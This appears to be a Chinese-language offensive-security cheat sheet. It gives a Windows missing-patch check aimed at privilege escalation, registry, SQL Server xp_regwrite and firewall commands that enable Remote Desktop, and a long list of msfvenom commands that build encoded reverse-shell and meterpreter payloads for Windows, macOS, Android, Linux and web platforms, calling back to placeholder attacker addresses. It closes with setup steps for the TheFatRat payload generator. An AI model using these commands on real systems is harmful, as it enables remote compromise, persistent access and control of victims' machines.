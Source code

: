 # windows提权

```
systeminfo>windowsvul.txt&(for %i in (KB977165 KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780)do @type windowsvul.txt|@find /i "%i"||@echo %i you can fuck)
```

# 开启远程桌面

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD
/d 00000000 /f
```

# sql server 命令

1.是否开启远程桌面，1表示关闭，0表示开启

```
EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections'
```

2.读取远程桌面端口

```
EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp','PortNumber'
```

3.开启远程桌面

```
EXEC master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
```

reg文件开启远程桌面：

```
Windows Registry Editor Version 5.00HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer]"fDenyTSConnections"=dword:00000000[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp]"PortNumber"=dword:00000d3d
////
```

保存`micropoor.reg`，并执行`regedit /s micropoor.reg`
注：如果第一次开启远程桌面，部分需要配置防火墙规则允许远程端口。

```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

4.关闭远程桌面

```
EXEC master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal
Server','fDenyTSConnections','REG_DWORD',1;
```

# msfvenom常用生成payload命令

windows:

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```

mac:

```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
```

android:

```
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

powershell:

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

linux:

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

php:

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw > shell.php
```

aspx:

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```

jsp:

```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

war:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.war
```

nodejs:

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

python:

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

perl:

```
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```

ruby:

```
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

lua:

```
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

windows shellcode:

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

linux shellcode:

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

mac shellcode:

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IPLPORT=攻击机端口 -f c
```

便捷化payload生成：
项目地址：https://github.com/Screetsec/TheFatRat

```
git clone https://github.com/Screetsec/TheFatRat.git
//设置时需要挂墙
chmod +x fatrat
chmod +x pwerfull.sh
chmod +x setup.sh
./setup.sh
```

附录：
中文使用说明：
Options:
-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload
(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
